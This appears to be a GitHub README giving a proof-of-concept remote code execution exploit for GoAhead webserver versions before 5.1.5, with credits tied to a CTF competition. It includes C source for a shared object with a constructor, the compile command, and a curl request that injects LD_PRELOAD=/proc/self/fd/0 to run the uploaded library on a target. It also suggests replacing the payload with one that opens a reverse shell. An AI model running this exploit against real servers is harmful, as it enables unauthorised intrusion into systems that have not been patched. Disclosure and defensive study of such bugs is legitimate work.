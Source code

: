# Goahead webserver (pre v5.1.5) RCE PoC

A recent bug in Goahead Webserver was discovered by [William Bowling](https://twitter.com/wcbowling) which leads to RCE on the exploited server.

The issue exists prior to version 5.1.5 which, according to [Shodan covers around 2.8mio servers on the internet](https://www.shodan.io/search?query=goahead). 

The RCE is caused by the the fact that if the file upload filter is enabled, then the user can upload files and at the same time set user form variabled. 

These variabled ends up as being OS environment variables. This is normally not a problem, as in normal form upload cases, the env variables will get prefixed with CGI_ (default). If, however the file upload filter is enabled, then an error in the code causes this prefix to be left out = instant RCE via env variables + file. 


## Creating simple shared object 
The following will just prints "Hellow World" on the remote server but could be anything really:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello World!\n", 14);
}
```
Compile with:
```Bash
gcc -fPIC -shared -o poc.so poc.c -nostartfiles
```
## Exploiting the server
now we are ready to send our file to the server. This can be done using curl:
```bash
curl -X POST  http://[TARGET]/cgi-bin/ -F "LD_PRELOAD=/proc/self/fd/0" -F file='@poc.so;encoder=base64'
```
change `[TARGET]` to the domain/ip of the target server. 

You will probably see an error from the server, but try with another shared object that e.g. calls back to you with a nice shell 👍

## Fix
A fix is out with goahead 5.1.5 here: [https://github.com/embedthis/goahead/issues/305]

## Credits 
The issue was initially found by Willian Bowling from Perfect Blue CTF team. 
During [pbCTF 2021](https://ctf.perfect.blue/), a challange was the, at that time, existing version (5.1.4) of goahead server, and togetther with [Kalmarunionen CTF Team](https://kalmarunionen.dk) we came across the same 0day issue in the code (yet to be disclosed to the authors). 
